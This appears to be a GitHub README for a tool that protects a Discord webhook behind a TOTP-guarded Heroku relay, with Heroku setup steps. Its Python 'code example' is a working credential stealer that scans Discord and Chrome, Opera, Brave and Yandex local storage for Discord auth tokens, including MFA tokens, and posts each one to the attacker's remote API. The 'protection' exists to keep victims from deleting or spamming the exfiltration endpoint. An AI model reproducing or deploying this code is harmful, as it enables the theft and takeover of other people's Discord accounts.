 <p align="center">
<img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square" </a>
</p>
</p>
<p align="center">
<a href="https://github.com/Rdimo/Discord-Webhook-Protector#setting-up-the-api">Setup the api</a> ⋮
<a href="https://cheataway.com">Discord</a>
</p>

#### Discord-Webhook-Protector was made by
Love ❌ code ✅

---

### 🔰・Features
```
> Easy to setup
> Webhook protected by totp so webhook can't be spammed or deleted even if they http debug!
> Accepting only post requests
> near to impossible to delete webhook (still possible to spam, but very hard)
```

### 🎈・Code example
```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-random-heroku-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    requests.post(api, headers={"Authorization": key}, json={"content": token})
```

### 📁・Setting up the api
1. Create an account on [Heroku.com](https://heroku.com)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. open api.js and put in your webhook at the top (line 5)
4. open cmd in the directory and type `npm i`
5. Now follow these steps carefully ⇣
```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
$ heroku open
```

### 📜・ Upcoming features
* File upload support (prob not in a while tho since im too lazy)

